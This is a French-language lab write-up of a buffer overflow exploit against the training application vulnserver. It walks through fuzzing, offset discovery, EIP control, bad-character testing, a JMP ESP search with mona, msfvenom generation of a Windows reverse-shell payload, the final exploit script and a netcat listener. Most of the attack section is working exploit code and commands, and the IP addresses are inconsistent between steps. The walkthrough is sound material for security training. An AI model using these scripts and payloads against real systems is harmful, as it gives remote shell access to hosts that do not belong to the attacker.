# 🛡️ Compte Rendu Professionnel : Analyse et Exploitation d'une Vulnérabilité de Dépassement de Tampon (Buffer Overflow)

## 📑 Sommaire
1. [Introduction](#1-introduction)
2. [Étapes de l'exploitation](#2-étapes-de-lexploitation)
   - [Étape 1 : Fuzzing pour identifier le point de crash](#étape-1--fuzzing-pour-identifier-le-point-de-crash)
   - [Étape 2 : Création d’un modèle pour identifier l’offset](#étape-2--création-dun-modèle-pour-identifier-loffset)
   - [Étape 3 : Contrôle de l’EIP](#étape-3--contrôle-de-leip)
   - [Étape 4 : Recherche de JMP ESP et des Bad Characters](#étape-4--recherche-de-jmp-esp-et-des-bad-characters)
   - [Étape 5 : Génération et injection du Shellcode](#étape-5--génération-et-injection-du-shellcode)
   - [Étape 6 : Connexion au Shell Reverse](#étape-6--connexion-au-shell-reverse)
3. [Conclusion Générale](#conclusion-générale)
4. [Recommandations](#recommandations)
5. [Remarque Finale](#remarque-finale)

---

## 1. 📘 Introduction

Un dépassement de tampon (*buffer overflow*) est une vulnérabilité critique permettant à un attaquant de prendre le contrôle d’un programme en écrasant le registre EIP (Instruction Pointer).

Ce rapport détaille l’exploitation d’un buffer overflow sur l’application vulnérable `vulnserver`, depuis l’identification du crash jusqu'à l’obtention d’un shell reverse.





---

## 2. ⚙️ Étapes de l’exploitation

### Étape 1 : Fuzzing pour Identifier le Point de Crash

Script utilisé pour le fuzzing :

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.1.24", 9999))
        payload = "TRUN /.:/" + buffer
        s.send(payload.encode())
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crashed at %s bytes" % len(buffer))
        sys.exit()
```

📸 **Résultat :** Crash à environ **2200 octets**  




---

### Étape 2 : Création d’un Modèle pour Identifier l’Offset

Génération du modèle :

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

📸 **Modèle généré :**  


```bash
#!/usr/bin/python
import sys, socket

pattern = "Aa0Aa1Aa2..."  # Modèle généré
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.24', 9999))
    payload = "TRUN /.:/" + pattern
    s.send((payload.encode()))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```

Envoi du modèle vers l'application vulnérable.

📸 **EIP écrasé par `386F4337` :**  



Calcul de l’offset exact :



✅ **Offset trouvé à 2003 octets**

---

### Étape 3 : Contrôle de l’EIP

Validation du contrôle de l’EIP :

```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.27', 9999))
    payload = "TRUN /.:/" + shellcode
    s.send((payload.encode()))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```

📸 **Résultat : EIP = 42424242 (BBBB)**  



---

### Étape 4 : Recherche de JMP ESP et des Bad Characters

#### 4.1 Identification des Bad Characters

Test des caractères interdits :

```python
#!/usr/bin/python
import sys, socket

badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.27', 9999))

```
```bash
payload = "TRUN /.:/" + shellcode
    s.send((payload.encode('latin1')))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```

📸 **Résultat d'analyse :** exclusion des caractères problématiques  



#### 4.2 Recherche JMP ESP

Utilisation de Mona :

```bash
!mona modules
```

📸 **Adresse JMP ESP identifiée**  



**Commande pour rechercher JMP ESP**
```
!mona find -s "\xff\xe4" -m essfunc.dll
```


---

### Étape 5 : Génération et Injection du Shellcode

Création du Shellcode Reverse Shell :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.27 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

📸 **Shellcode généré :**  



Injection finale du shellcode :

```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "<Votre shellcode ici>"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.27', 9999))
    payload = "TRUN /.:/" + shellcode
    s.send((payload.encode('latin1')))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```

---

### Étape 6 : Connexion au Shell Reverse

Écoute avec Netcat :

```bash
nc -nlvp 4444
```

📸 **Résultat du Shell interactif**  


---

## 🎯 Conclusion Générale

Ce rapport a permis de détailler l'exploitation complète d'une faille Buffer Overflow sur `vulnserver` avec obtention d'un accès interactif.

---

## 🔐 Recommandations

Pour prévenir ces attaques, il est conseillé de :

- Activer l’**ASLR** et le **DEP**.
- Maintenir à jour ses logiciels.
- Réaliser régulièrement des audits de code.
- Utiliser des outils de fuzzing régulièrement.

---

## ⚠️ Remarque Finale

> Ce document est à usage éducatif uniquement et doit être utilisé dans un environnement contrôlé. Toute utilisation malveillante est strictement interdite.
